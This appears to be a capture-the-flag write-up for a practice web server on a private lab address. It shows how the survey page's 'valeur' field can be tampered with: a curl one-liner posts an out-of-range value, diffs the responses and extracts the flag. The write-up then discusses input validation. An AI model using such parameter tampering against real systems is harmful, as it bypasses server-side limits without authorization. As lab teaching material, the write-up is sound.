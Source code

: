# Survey Page
__http://192.168.56.101/?page=survey__

## Description
This is a survey page where users can make choices and provide input. Each row of the "Make your choice" table is an HTML form element. The form action is set to "#" which means it submits to itself, and the form method is set to POST.

## Form Inputs
The form has several inputs:

```<input type="hidden" name="sujet" value="2">
    <input type="hidden" name="sujet" value="3">
    <input type="hidden" name="sujet" value="4">
    <input type="hidden" name="sujet" value="5">
    <input type="hidden" name="sujet" value="6"> 
<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>```

1. Input name "sujet" (type: hidden): This input has a value range from 2 to 6.
2. Input name "valeur" (type: select): This input has a value range from 1 to 10.

The "valeur" element also has an onchange JavaScript attribute, which automatically submits the form when the value is changed.

## Flag
If a POST request is submitted with the "valeur" value greater than 10, the page will display the flag.

```curl -s 'http://192.168.56.101/index.php?page=survey' --data 'sujet=2&valeur=10'  -o _10.html && curl -s 'http://192.168.56.101/index.php?page=survey' --data 'sujet=2&valeur=111'  -o _111.html && diff _10.html _111.html | sed 's/.*flag is \(.*\)<\/h2>.*/\1/' > flag```

## Key Takeaway
The key takeaway from this experience is the importance of data sanitization and validation to prevent potential security vulnerabilities. Whether variables are passed in the URL through a GET request or through a more complex POST request, proper measures should be taken to ensure the accuracy and safety of user data.</br>
In terms of security, this code is attempting to exploit a vulnerability in the survey page. By sending different POST requests with varying values of thevaleur parameter, the code checks if there is any difference in the server's response. The assumption is that if the value of valeur is greater than 10, the flag will be displayed in the response.</br>
However, this approach is not a secure way of extracting the flag, as it relies on the assumption that the flag will always be wrapped in a specific HTML tag structure. Additionally, this code does not handle edge cases or validate/sanitize the user input properly.</br>
To ensure better security, it is crucial to implement proper input validation and sanitization techniques, such as server-side validation and using secure APIs, to prevent potential vulnerabilities like injection attacks or data manipulation.</br>
